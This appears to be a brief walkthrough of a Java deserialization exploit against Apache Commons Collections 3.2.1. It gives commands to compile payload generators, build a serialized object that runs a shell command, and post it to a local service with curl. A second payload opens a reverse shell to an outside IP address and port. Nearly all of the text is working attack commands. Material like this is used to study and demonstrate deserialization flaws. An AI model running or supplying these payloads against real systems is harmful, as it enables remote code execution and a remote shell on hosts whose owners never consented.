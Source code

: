 #

`$ javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1.java`

```
$ java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1 'touch /tmp/h2hc_2017'
Saving serialized object in ExampleCommonsCollections1.ser
```

`curl 127.0.0.1:8000/ --data-binary @ExampleCommonsCollections1.ser`

反弹

`$ javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java`

```
$ java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 136.6.231.240:55555
Saving serialized object in ReverseShellCommonsCollectionsHashMap.ser
```

`curl 127.0.0.1:8000/ --data-binary @ReverseShellCommonsCollectionsHashMap.ser`